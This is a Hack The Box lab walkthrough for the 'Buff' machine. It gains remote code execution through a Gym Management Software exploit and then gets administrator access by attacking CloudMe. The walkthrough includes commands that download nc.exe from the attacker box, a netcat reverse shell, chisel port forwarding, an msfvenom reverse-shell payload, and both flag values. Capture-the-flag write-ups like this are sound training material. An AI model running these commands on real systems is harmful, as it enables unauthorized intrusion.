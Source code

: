 # HTB Walkthrough - Buff

**Machine Name**: Buff  
**Target IP**: 10.129.2.18  
![webpage](img/webpage.png)

---

## 🧭 Enumeration

### 🔍 Nmap Scan

```bash
nmap -sV -sC -oA nmap/Buff 10.129.2.18
```
![nmap](img/nmap.png)

**Results:**

```
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
```

## 🌐 Web Enumeration

- Website accessible at: http://10.129.2.18:8080
- Title: `mrb3n's Bro Hut`
- Software identified: **Gym Management Software 1.0**

## ⚙️ Exploitation (RCE via Gym Management Software)

[Exploit Reference - EDB 48506](https://www.exploit-db.com/exploits/48506)  
![exploitdb](img/exploitdb.png)

```bash
python2 exploit.py http://10.129.2.18:8080/
```
![reverseshell](img/reverseshell.png)

**Initial Shell Gained.**

---

## 🪪 User Flag

```bash
type ..\..\..\..\Users\shaun\Desktop\user.txt
```
![userflag](img/userflag.png)

**Flag:** `4277a01cb57aa37a5e6aeeb90deb91c4`

---

## ⚙️ Reverse Shell Upgrade

```bash
# Host on attack box
python3 -m http.server 80

# On victim
powershell Invoke-WebRequest -Uri http://10.10.14.156/nc.exe -Outfile C:\Users\Public\nc.exe
C:\Users\Public\nc.exe 10.10.14.156 4444 -e cmd.exe
```
![revshell](img/revshell.png)

---

## 🧭 Privilege Escalation

### 🔍 winPEAS Findings
![listeningPort](img/listeningport_897d0207.png)  
![cloud](img/cloud.png)

- Detected service: `CloudMe` running on `127.0.0.1:8888`
- Vulnerable to buffer overflow ([EDB 48389](https://www.exploit-db.com/exploits/48389))

---

## 🔁 Port Forwarding

**Using chisel:**

```bash
# On attacker machine
chisel server -p 8000 --reverse

# On victim
chisel.exe client 10.10.14.156:8000 R:8888:127.0.0.1:8888
```
![portforwarding](img/portforwarding.png)

---

## 💥 Exploiting CloudMe

1. Generate payload:

```bash
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.156 LPORT=7777 -b "\x00\x0a\x0d" -f python -v payload
```
![payload](img/payload.png)

2. Inject payload into CloudMe exploit script and run:

```bash
python3 cloudme_exploit.py
```
![root](img/root.png)

---

## 👑 Root Access

```bash
whoami
# buff\administrator

type C:\Users\Administrator\Desktop\root.txt
```
![rootflag](img/rootflag.png)

**Flag:** `1d8332fbbb42c15032013d5e2fdd2655`

